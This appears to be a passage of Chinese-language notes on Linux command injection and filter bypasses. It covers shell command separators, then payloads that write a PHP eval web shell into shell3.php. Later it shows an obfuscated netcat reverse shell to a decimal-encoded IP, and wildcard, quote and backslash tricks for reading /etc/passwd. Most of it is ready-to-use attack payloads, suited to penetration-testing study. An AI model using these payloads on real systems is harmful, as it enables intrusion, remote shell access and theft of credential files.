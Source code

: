 ##### b. Linux

| 命令格式                 | 含义                                       |
| ------------------------ | ------------------------------------------ |
| command1**;**command2    | 先后执行，无论command1是否成功             |
| command1**&&** command2  | 先后执行，command1成功，才执行command2     |
| command1**&**command2    | 先执行command1并放置后台，在执行command2   |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2     |
| command1**\|**command2   | 管道符，将command1的执行结果传递给command2 |

```php
127.0.0.1;echo '<?php @eval($_REQUEST['cmd']); ?>' > shell3.php	√
127.0.0.1;echo "<?php @eval($_REQUEST['cmd']); ?>" > shell3.php	×
127.0.0.1;echo "<?php eval(\$_POST["cmd"]); ?>" > shell3.php	√  
```

### 2. Linux变形

####  (1)bash通配符

| 通配符 | 通配符解释                      | 案例                          | 案例解释                       |
| ------ | ------------------------------- | ----------------------------- | ------------------------------ |
| *      | 代表**0到无穷多个**任意字符     | /bin/cat /etc/*wd             | 查看/etc文目录下以wd结尾的文件 |
| ?      | 代表一定有1个任意字符           | /b?n/cat /etc/pass?d          | 查看/etc文目录下符合要求的文件 |
| []     | 代表**一定有1个在括号内**的字符 | /bin/cat /etc/[pwe]ass[aswd]d |                                |
| -      | 代表**在编码顺序内的所有**字符  | [0-9]                         | 0到9之间的所有数字             |
| ^      | 代表**反向选择**                | [^abc]                        | 一定没有一个括号内的字符       |

#### (2)IP转数字，数字转IP

```bash
192.168.12.151 =>  3232238743
反弹shell的使用： 	/???/nc -e /???/b??h 3232238743 1234
```

#### (3)连接符

```bash
#原型：/bincat /etc/passwd
1. 单引号： ''包裹
	/b'i'n/c'a't /e't'c/'p'a's's'w'd
2. 双引号
	c"a"t /"e"t"c"/"p"a"s"s"w"d
3. 反斜杠
	c\a\t /e\t\c/p\a\s\s\w\d
```

#### (4)未初始化的变量
